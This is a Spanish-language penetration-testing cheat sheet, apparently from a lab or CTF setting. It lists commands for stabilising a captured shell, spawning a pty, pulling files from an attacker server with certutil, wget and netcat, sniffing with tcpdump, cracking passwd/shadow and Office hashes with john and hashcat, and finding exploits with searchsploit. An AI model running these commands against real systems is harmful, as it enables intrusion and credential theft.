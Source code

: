  

### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset "xterm" # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```
### Comparación de archivos

```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>
```

### Netcat
```python
#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 

### Búsqueda de exploits

```python
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
find / -iname nombre_archivo
```
### 